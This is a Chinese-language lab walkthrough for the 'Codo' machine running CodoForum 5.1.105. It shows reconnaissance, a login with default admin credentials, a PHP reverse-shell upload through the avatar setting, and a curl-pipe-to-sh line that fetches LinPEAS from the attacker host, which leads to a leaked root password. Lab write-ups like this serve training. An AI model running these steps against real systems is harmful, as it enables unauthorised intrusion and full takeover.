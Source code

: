 ```yaml
---
description: Linux - Easy：CODOFORM V.5.1.105
---
```


# ✔️ Codo

## 建立立足点

### 信息枚举

使用Nmap对目标系统进行开放端口扫描，获得2个端口：22和80

```bash
nmap -sC -sV -p- -oA codo 192.168.200.23 --open  
```

<figure><img src="../.gitbook/assets/1 (16).png" alt=""><figcaption></figcaption></figure>

检查80端口上的Web页面：

<figure><img src="../.gitbook/assets/2 (18).png" alt=""><figcaption></figcaption></figure>

尝试枚举80端口上的隐藏文件/目录，并&#x5728;**/admin**路径上发现登录界面：

```bash
dirsearch -u http://192.168.200.23
```

<figure><img src="../.gitbook/assets/3 (13).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/4 (16).png" alt=""><figcaption></figcaption></figure>

尝试用弱口令<mark style="color:red;">**admin:admin**</mark>登录成功：

<figure><img src="../.gitbook/assets/5 (17).png" alt=""><figcaption></figcaption></figure>

并且发现目标正在使用的是：CODOFORM V.5.1.105

<figure><img src="../.gitbook/assets/6 (16).png" alt=""><figcaption></figcaption></figure>

### 漏洞查阅

查找相关漏洞发现其有一个远程命令执行的漏洞可以利用：

```bash
searchsploit codoforum 5.1
searchsploit -m 50978.py .
```

<figure><img src="../.gitbook/assets/7 (15).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/8 (13).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

根据该脚本的使用方法所构造的命令确认无误后，发现始终无法利用成功。但仍然从该脚本中获取到了重要的信息：**可在admin设置中上传脚本**

<figure><img src="../.gitbook/assets/9 (13).png" alt=""><figcaption></figcaption></figure>

决定直接在admin后台中上传反弹shell来get shell。

* 先在全局设置中的可上传文件类型中**添加.php**，以方便后续上传**php-reverse-shell.php脚本**

<figure><img src="../.gitbook/assets/10 (15).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/11 (14).png" alt=""><figcaption></figcaption></figure>

* 然后准备好php-reverse-shell.php脚本，修改好反弹shell监听的主机IP和端口号，并在Kali本机监听好端口：

```bash
// Kali本机监听
nc -lvnp 1234
```

<figure><img src="../.gitbook/assets/12 (14).png" alt=""><figcaption></figcaption></figure>

* 在用户->管理用户->admin的设置页面中，找到头像上传项，并将准备好的反弹shell脚本上传后，点save键触发脚本：

<figure><img src="../.gitbook/assets/13 (13).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/14 (14).png" alt=""><figcaption></figcaption></figure>

### GET SHELL

成功获得反弹shell，并获得local.txt：

<figure><img src="../.gitbook/assets/15 (13).png" alt=""><figcaption></figcaption></figure>

## 权限提升

### 本地信息枚举

上传LinPEAS.sh脚本，对目标进行本地信息收集，已发现可利用的提权漏洞：

```bash
// Kali本机准备好linpeas.sh脚本，并在所属目录下开启服务器
python3 -m http.server
// 在目标系统中，下载linpeas.sh到本地并且直接执行
curl -L 192.168.45.172:8000/linpeas.sh |sh
```

<figure><img src="../.gitbook/assets/16 (14).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/17 (14).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

阅读linpeas.sh脚本的输出结果后，发现一个密码：<mark style="color:red;">**FatPanda123**</mark>

<figure><img src="../.gitbook/assets/18 (13).png" alt=""><figcaption></figcaption></figure>

并且已知当前系统上有两个用户账户：offsec和root，分别尝试后发现它是root账户的密码。

### ROOT

<figure><img src="../.gitbook/assets/19 (13).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/20 (9).png" alt=""><figcaption></figcaption></figure>
